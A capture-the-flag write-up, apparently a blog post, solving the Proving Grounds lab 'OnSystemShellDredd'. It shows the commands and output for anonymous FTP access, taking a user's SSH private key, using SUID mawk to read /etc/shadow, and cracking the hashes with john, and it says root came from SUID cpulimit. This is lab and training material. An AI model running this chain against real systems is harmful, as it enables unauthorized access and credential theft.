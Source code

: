 ```yaml
---
title: "Proving grounds Play: OnSystemShellDredd"
layout: post
date: 2023-07-07 22:10
categories: writeup
---
```


Proving grounds Play - OnSystemShellDredd CTF writeup.

## Walkthrough on Youtube
[![youtube](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/youtube.png)](https://youtu.be/UPYHCc7PdGQ)

## NMAP
```bash
naveenj@hackerspace|01:02 AM|~/Pg-Play$ nmap -p- --open -sV -sT -sC 192.168.191.130 -v -oN nmap                                                                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 01:02 EDT                                                
PORT      STATE SERVICE VERSION                                                              
21/tcp    open  ftp     vsftpd 3.0.3                                                         
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)                                       
| ftp-syst:                                                                                  
|   STAT:                                                                                    
| FTP server status:                                                                         
|      Connected to ::ffff:192.168.45.250                                                    
|      Logged in as ftp                                                                      
|      TYPE: ASCII                                                                           
|      No session bandwidth limit                                                            
|      Session timeout in seconds is 300                                                     
|      Control connection is plain text                                                      
|      Data connections will be plain text                                                   
|      At session startup, client count was 4                                                
|      vsFTPd 3.0.3 - secure, fast, stable                                                   
|_End of status                                                                              
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       
| ssh-hostkey:                                                                               
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)                                              
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)                                             
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)                                           
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel                               
```

## FTP login
```bash
naveenj@hackerspace|01:07 AM|~$ ftp 192.168.191.130 21                                       
Connected to 192.168.191.130.                                                                
220 (vsFTPd 3.0.3)                                                                           
Name (192.168.191.130:naveenj): anonymous                                                    
331 Please specify the password.                                                             
Password:                                                                                    
230 Login successful.                                                                        
Remote system type is UNIX.                                                                  
Using binary mode to transfer files.                                                         
ftp>
```

### List directory
```sh
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||13654|)                                               
150 Here comes the directory listing.                                                        
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah                              
226 Directory send OK.                                                                       
ftp>
```

## Changing directory
```sh
ftp> cd .hannah                                                                              
250 Directory successfully changed.                                                          
ftp> ls -lsa                                                                                 
229 Entering Extended Passive Mode (|||8389|)                                                
150 Here comes the directory listing.                                                        
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .                                    
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..                                   
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa                               
226 Directory send OK.                                                                       
ftp>
```

## Get id_rsa key for user hannah
```sh
ftp> get id_rsa                                                                              
local: id_rsa remote: id_rsa                                                                 
229 Entering Extended Passive Mode (|||17682|)                                               
150 Opening BINARY mode data connection for id_rsa (1823 bytes).                             
100% |************************************************|  1823       11.66 MiB/s    00:00 ETA 
226 Transfer complete.                                                                       
1823 bytes received in 00:00 (8.97 KiB/s)                                                    
ftp>
```

## Login to hannah user using ssh
```sh
naveenj@hackerspace|01:12 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130                                                                                     
ssh: connect to host 192.168.191.130 port 22: Connection refused
```

Apply required permission such as `chmod 600` to the id_rsa file. Still the connection will be refused. As we have one more ssh service running on PORT 61000, we can try to connect there.

```sh
naveenj@hackerspace|01:15 AM|~/Pg-Play/OnSystemShellDredd$ ssh -i files/id_rsa hannah@192.168.191.130 -p 61000                                                                           
                                                                 
hannah@ShellDredd:~$ 
```
Whooo! we are logged in to hannah user now.

### Obtaining Flag
```sh
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat user.txt
Your flag is in another file...
hannah@ShellDredd:~$ cat local.txt
5b571██████████████████████████
hannah@ShellDredd:~$ 
```

# Privilege Escalation
Get SUIDs and GUIDs

### SUIDs
```sh
hannah@ShellDredd:~$ find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk #--strange binary
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit #--strange binary
/usr/bin/mount
/usr/bin/passwd
```

### GUIDs
```sh
hannah@ShellDredd:~$ find / -perm -g=s -type f 2>/dev/null
/usr/sbin/unix_chkpwd
/usr/bin/wall
/usr/bin/mawk
/usr/bin/ssh-agent
/usr/bin/crontab
/usr/bin/chage
/usr/bin/expiry
/usr/bin/bsd-write
/usr/bin/cpulimit
/usr/bin/dotlockfile
```

Search for the exploit in GFTObins for the strange binary `mawk`

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_mawk.png)

The exploit worked and we are able to view the shadow file which contains hash of the users passwords.

```sh
hannah@ShellDredd:~$ mawk '//' "/etc/shadow" | grep -iE 'root|hannah'
root:$6$pUGgTFAG7pM5Sy5M$SXmRNf2GSZhId7mGCsFw█████████████████████████████████████████████████████████:18656:0:99999:7:::
hannah:$6$y8GL381zxgwD7gRr$AhERcqNym1qlATj9Rl6R██████████████████████████████████████████████████████.:18656:0:99999:7:::
```

Let's start cracking the hashes using john or crackstation.

Copy both the passwd and shadow files to the local machine to unshadow.

`unshadow passwd shadow > crackme` run the command to unshadow the file.

### Running john
```sh
naveenj@hackerspace|01:56 AM|~/Pg-Play/OnSystemShellDredd/files$ john crackme --wordlist=/usr/share/wordlists/rockyou.txt                                                                 
Using default input encoding: UTF-8                                                          
Loaded 2 password hashes with 2 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])                                                                                       
Cost 1 (iteration count) is 5000 for all loaded hashes                                       
Will run 4 OpenMP threads                                                                    
Press 'q' or Ctrl-C to abort, almost any other key for status
```

After a while there is no progress, so lets check another way.

Let's check the `/usr/bin/cpulimit` binary in GTFObins for exploits.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/suid_cpulimit.png)

Running the exploit command.

![img](/assets/images/CTF/Proving_Grounds/OnSystemShellDredd/root.png)

Obtained root and proof flag.

*Happy Hacking!*

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).
